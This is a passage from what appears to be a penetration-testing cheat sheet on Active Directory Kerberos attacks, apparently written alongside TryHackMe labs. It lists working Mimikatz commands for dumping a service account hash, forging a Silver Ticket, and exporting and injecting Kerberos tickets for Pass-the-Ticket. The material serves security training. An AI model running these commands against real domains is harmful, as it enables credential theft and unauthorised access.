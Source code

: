 \*\*\*Note: The KRBTGT account is used by the KDC to encrypt and sign TGTs
{% endtab %}

{% tab title="Silver Ticket" %}
<figure><img src="../../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

* Can access only a **targeted** service
* To stay undetected
* Dump the **Service Account (SA)** NTLM hash
* Forge **TGS**

**Dumping the SA hash:**

`lsadump::lsa /inject /name:<SERVICE>`

**Creating Silver Ticket:**

`Kerberos::golden /user:Administrator /domain:<DOMAIN.local> /sid: <domain_sid> /rc4:<ServiceAccount_hash> /id:1103`
{% endtab %}
{% endtabs %}

***

### <mark style="color:green;">Pass-the-Ticket</mark>

It is a type of Kerberos attack where the attacker reuses a valid TGT or TGS to access the system without knowing the user’s password. It can be extracted from the LSASS memory using Mimikatz:

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

```powershell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```
